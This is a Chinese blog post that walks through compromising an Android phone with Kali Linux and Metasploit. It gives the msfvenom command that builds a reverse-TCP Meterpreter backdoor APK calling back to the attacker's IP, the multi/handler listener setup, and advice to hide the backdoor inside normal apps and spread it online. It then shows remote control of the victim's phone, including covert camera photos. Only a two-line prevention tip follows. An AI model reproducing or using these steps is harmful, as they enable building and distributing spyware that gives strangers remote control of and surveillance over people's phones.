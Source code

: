 ```yaml
---
layout: post
title: 演示使用Metasploit入侵Android
---
```


文本演示怎么使用Kali Linux入侵Android手机。

Kali Linux IP地址：192.168.0.112；接收连接的端口：443。

![kali Linux ip]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-18 10-16-04.png)

同一局域网内android手机一部(android 5.1)

### 创建一个后门程序

在终端中执行：

{% highlight shell %}
# msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=443 > my_backdoor.apk
{% endhighlight %}

这个后门程序(APK)是发送给受害者的；要把上面命令的IP地址替换为攻击者IP，当后门程序运行时，它会试图连接这个IP。

### 启动Metasploit－等待受害者启动后门程序

{% highlight shell %}
# msfconsole
{% endhighlight %}

![Metasploit 黑 Android]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-18 at 10.40.42.png)

依次执行：

{% highlight shell %}
msf > use exploit/multi/handler
    > set payload android/meterpreter/reverse_tcp
    > set lhost 192.168.0.112
    > set lport 443
    > exploit
{% endhighlight %}

![Metasploit 黑 Android]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-18 at 10.46.23.png)

### 分发后门程序

一般后门程序都打包到正常app中，反正就是各种藏；

借助internet分发后门程序。

闲话不多书，这里我在自己的android手机上安装运行带后门的apk。

![Metasploit 黑 Android]({{ site.baseurl }}/images/2016/4/S60418-105349.jpg)

病毒！！！

### 控制受害者手机

受害者运行后门程序之后，就可以使用Metasploit控制他了：

![Kali Linux 黑 Android]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-18 at 11.00.09.png)

使用help查看可以使用的命令：

![Kali Linux 黑 Android]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-18 11-16-27.png)

例如使用对方的摄像头拍照：

{% highlight shell %}
> webcam_list
> webcam_snap
{% endhighlight %}

*****

怎么防范：

* 不要安装不信任的apk
* 如果你非要安装未知来源的apk，你可以使用android逆向工程查看apk的代码。[学习Android逆向工程](http://topspeedsnail.com/start-learn-android-reversing/)

![Kali Linux 黑 Android]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-18 11-27-38.png)

****

[Metasploit的基本使用](http://topspeedsnail.com/kali-linux-metasploit-base-use/)

[演示使用Metasploit入侵Windows](http://topspeedsnail.com/kali-linux-n-hack-windows-xp/)